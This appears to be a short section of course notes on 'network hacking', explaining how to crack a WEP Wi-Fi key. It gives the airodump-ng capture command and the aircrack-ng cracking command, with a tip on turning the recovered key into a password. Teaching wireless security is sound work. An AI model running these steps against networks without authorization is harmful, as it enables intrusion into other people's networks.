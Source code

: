 # Section 06 - Network Hacking - Gaining Access (WEP/WPA/WPA2 Cracking)

## WEP Cracking - Basic Case

Use `aircrack-ng` to analyze the data captured by `airodump-ng`.

First capture packets with:
```
airodump-ng --bssid <BSSID> --channel <CH> --write basic_wep $IFACE
```

Let `airodump-ng` work for several seconds or several minutes to let `#Data` increase.

Run `aircrack-ng` against the captured packets with:
```
aircrack-ng basic_wep-01.cap
```

`aircrack-ng` outputs the key either as ASCII or as a key. If you only get the key, just remove the colons `:` to get a usable password.
